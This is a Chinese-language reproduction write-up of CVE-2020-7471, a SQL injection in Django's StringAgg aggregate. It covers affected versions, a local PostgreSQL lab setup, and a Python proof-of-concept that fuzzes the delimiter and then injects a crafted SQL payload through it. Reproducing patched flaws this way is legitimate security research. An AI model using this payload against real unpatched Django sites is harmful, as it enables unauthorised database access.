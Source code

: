 （CVE-2020-7471）Django sql注入漏洞
===================================

一、漏洞简介
------------

Django是高水准的由Python编程语言驱动的一个开源Web应用程序框架，起源于开源社区。使用Django，程序员可以方便、快捷地创建高品质、易维护、数据库驱动的应用程序，应用广泛。2020年2月初，Django
官方发布安全通告公布了一个通过StringAgg（分隔符）实现利用的潜在SQL注入漏洞（CVE-2020-7471）。攻击者可通过构造分隔符传递给聚合函数contrib.postgres.aggregates.StringAgg，从而绕过转义并注入恶意SQL语句

二、漏洞影响
------------

Django 1.11.x \< 1.11.28Django 2.2.x \< 2.2.10Django 3.0.x \< 3.0.3Django 主开发分支

三、复现过程
------------

### 环境安装

1.  安装 django 漏洞版本，我测试用的是

-   pip install django==3.0.2 -i https://pypi.tuna.tsinghua.edu.cn/simple

2.  参考
    https://www.runoob.com/postgresql/windows-install-postgresql.html
    完成 postgres 数据库的安装

3.  新建数据库

-   CREATE DATABASE test;

4.  修改 sqlvul\_projects/settings.py
    里面的数据库配置，如果上一步你安装用的默认配置（包括设置密码为postgres），就无需修改任何配置，可以跳过这一步

-   DATABASES = {
            'default': {
                'ENGINE': 'django.db.backends.postgresql',
                'NAME': 'test',         # 数据库名称
                'USER': 'postgres',
                'PASSWORD': 'postgres', # 数据库用户密码
                'HOST': '127.0.0.1',    # 数据库地址
                'PORT': '5432',
            }
        }

5.  通过 django 初始化数据表

-   python3 manage.py migrate
        python3 manage.py makemigrations vul_app
        python3 manage.py migrate vul_app

### poc

    # encoding:utf-8
    import os
    import django
    os.environ.setdefault("DJANGO_SETTINGS_MODULE", "sqlvul_project.settings")

    # Django 版本大于等于1.7的时候，需要加上下面两句
    if django.VERSION >= (1, 7):#自动判断版本
        django.setup()

    from vul_app.models import Info
    from django.contrib.postgres.aggregates import StringAgg
    from django.db.models import Count

    """
    postgres 预先执行的SQL
    CREATE DATABASE test;
    \c test;
    \d 列出当前数据库的所有表格
    """

    def initdb():
        data = [('li','male'),('zhao','male'),('zhang','female')]
        for name,gender in data:
            Info.objects.get_or_create(name=name,gender=gender)

    def query():
        # FUZZ delimiter
        error_c = []
        other_error_c = []
        for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
            results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
            try:
                for e in results:
                    pass
            except IndexError:
                error_c.append(c)
            except:
                other_error_c.append(c)
        print(error_c)
        print(other_error_c)

    def query_with_evil():
        '''
        注入点证明
        分别设置delimiter为 单引号 二个单引号 二个双引号
        尝试注释后面的内容 ')--
        :return:
        '''
        print("[+]正常的输出：")
        payload = '-'
        results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
        for e in results:
            print(e)
        print("[+]注入后的的输出：")
        payload = '-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 -- '
        results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter=payload))
        for e in results:
            print(e)



    if __name__ == '__main__':
        print(django.VERSION) # 测试版本 3.0.2
        initdb()
        query()
        query_with_evil()

然后运行 POC 脚本`CVE-2020-7471.py`就可以了

> 漏洞环境及其poc下载地址：https://github.com/ianxtianxt/CVE-2020-7471
